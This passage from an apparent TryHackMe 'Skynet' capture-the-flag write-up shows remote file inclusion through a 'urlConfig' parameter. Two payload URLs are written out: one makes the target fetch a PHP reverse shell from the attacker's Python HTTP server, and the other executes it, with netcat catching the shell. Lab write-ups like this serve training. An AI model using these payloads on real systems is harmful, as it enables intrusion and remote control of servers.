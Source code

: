 ![](/assets/images/thm-skynet/searchsploit.png)

To set this up all we have to do is start a simple python http server in the directory that has our shell, then manipulate the vulnerable `urlConfig` Parameter to point towards our PHP reverse shell code. Once our reverse shell has been uploaded. Setup a netcat listener so we can gain a stable shell.

URL to execute RFI Vulnerability:
```
http://10.10.156.86/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.6.12.92/shell.php?
```

Let's check our python http server to see if we got a response.
![](/assets/images/thm-skynet/rfi.png)
Now that we know our PHP code is on the machine, let's setup a listener and execute the script and gain a reverse shell.

URL to execute LFI Vulnerability:
```
http://10.10.156.86/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=shell.php
```
![](/assets/images/thm-skynet/initial.png)

Now that we have a shell, let's grab the user flag.
![](/assets/images/thm-skynet/user.png)
